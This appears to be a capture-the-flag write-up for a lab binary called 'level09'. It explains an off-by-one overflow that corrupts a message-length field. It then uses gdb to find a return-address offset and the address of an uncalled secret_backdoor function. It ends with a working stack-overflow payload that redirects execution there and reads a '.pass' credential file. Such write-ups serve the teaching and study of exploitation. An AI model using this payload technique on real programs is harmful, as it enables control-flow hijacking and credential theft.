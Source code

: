 # Level09

## Observations

```c
for (i = 0; (i < 41 && (input[i] != '\0')); i = i + 1)
```

We noticed that there's a loop which can write 41 in the username, which has a size of 40.
So we can write a byte in `msg_data.msg_len` that's follows username in memory.

This allows us to write out of the struct in `set_msg`.

There's also a function called `secret_backdoor` in the binary but never called.

With a buffer overflow we can redirect the program to run `secret_backdoor` after `handle_msg` instead of `main`.

## Gather information

### `secret_backdoor`'s address

We can use `gdb` to get the address of the function

```shell 
$ gdb ./level09
(gdb) b main
(gdb) r

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Get the buffer overflow offset

We can use `gdb` and a buffer overflow mask to get the offset for buffer overflow.

```shell
$ (python -c 'print "a"*40 + chr(255)'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"';) > /tmp/payload09
$ gdb ./level09
(gdb) r < /tmp/payload09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
(gdb) info frame
...
rip = 0x555555554931 in handle_msg; saved rip 0x4138674137674136
...
```

So we have on offset of `200`.

## Exploit

Now we can exploit the binary by writing the address of `secret_backdoor` and adjust the value in `msg_data.msg_len`.

```shell
$ (python -c 'print "a"*40 + chr(206)'; python -c 'print "b" * 200 + "\x8c\x48\x55\x55\x55\x55"'; echo "cat /home/users/end/.pass") | ./level09
```
